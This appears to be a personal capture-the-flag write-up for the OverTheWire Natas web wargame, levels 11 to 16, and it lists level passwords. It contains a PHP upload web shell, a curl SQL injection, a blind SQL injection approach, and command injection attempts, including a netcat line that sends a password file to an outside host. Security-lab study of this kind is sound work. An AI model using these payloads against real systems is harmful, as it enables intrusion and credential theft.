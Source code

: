 - Should have started by understanding the XOR plaintext attack.
- Trying to reverse characters here was probably not a good idea.
- Moving this to Python was probably a bad idea. Something with base64 being different.
- PHP is wet garbage. Need to find a function to display binary data better.
- Remember to re-state your assumptions.  The key repeated every 4 characters, but ended before
  a complete revolution.  I should have looked at the key, copied out the 4 repeating characters
  and used that, rather than doubling up the key and having the last chunk be incorrect.  Tough
  to track down.

### natas12: EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3

- In developer tools, change the filename to hello.php.
- That pathinfo() function uses the same file extension and doesn't filter for jpg/jpeg.
- Then it runs whatever .php files are sitting there.
```
<?php

echo "hello from me\n";

system("cat /etc/natas_webpass/*");

?>
```

### natas13: jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

- Same idea as the last one.  But it'll run exif\_imagetype() on it, so you need to have 
  enough of a JPEG file at the top to trick php, but if you add that .php file extension
  in the form, it'll run it as php again anyway.

### natas14: Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1

```
$ curl --basic -u natas14:Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1 http://natas14.natas.labs.overthewire.org?debug=yes -F username='" or 1#' -F password=abc123
```

### natas15: AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

I made an educated guess that the user is natas16 and verified it exists.
We can inject some SQL, but we can't get output - we only know if a row was returned or not.
I wrote a script to start trying strings and see if there exists a password that starts with 
that string. If there is, start trying more characters on the end of that string. 

Didn't realize LIKE was case-insensitive. Great. :tada:

### natas16: WaIHEacj63wnNIBROHeqi3p9t0m5nhmh 

``` 
passthru("grep -i \"$key\" dictionary.txt"); 
```

Okay, so it's filtering things out when we run the grep command. So how do we get some output
out of this thing?  It's tough to break out of the quotes.  But we can run a subcommand, so 
there's a lot we can do.
 - Tried using `nc -l 0.0.0.0 12345` but the host doesn't accept connections.  It does hang, so netcat exists.
 - Tried using `nc server.com 12345 < /etc/natas_webpass/natas17` but it doesn't make outgoing connections.
 - Tried using `.$(echo -e \\042) /etc/natas*/* $(echo -e \\042)` to emit quotes, but it fails for some reason.
